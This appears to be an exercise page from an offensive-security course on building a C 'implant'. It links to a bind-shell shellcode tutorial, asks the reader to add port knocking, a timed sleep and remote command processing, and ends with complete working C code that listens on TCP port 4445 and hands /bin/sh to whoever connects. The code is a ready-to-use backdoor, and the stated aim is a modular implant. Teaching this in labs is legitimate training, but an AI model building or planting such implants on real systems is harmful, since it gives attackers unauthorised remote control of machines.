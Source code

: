# Bind Shell
Look at this link for some c that creates a bind shell. If anything doesn't work, you're a hacker, you have google... 

<https://rastating.github.io/creating-a-bind-shell-tcp-shellcode/>

Implement a bind shell in c, execute it with your portknocking, and connect to the bind shell with netcat. 

Once you have that, modify your existing implant to not use any sort of portknock setup and instead sleep an arbitrary amount of time on execution. Once that time has elapsed, open a bind shell. This should not require many changes to your code, but is an important step towards building in a modular manner. 

Once you have built your new miniature implant, modify it to have command processing functionality while connected via bind shell. For your first new command, upon receiving the string 'sleep X', close down the reverse shell, sleep for specified X minutes, and then reconnect to the previous port. 

When you are done, submit your commit.





#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <unistd.h>

int main ()
{
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4445);
    addr.sin_addr.s_addr = INADDR_ANY;

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    listen(sockfd, 0);

    int connfd = accept(sockfd, NULL, NULL);
    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

    execve("/bin/sh", NULL, NULL);
    return 0;
}

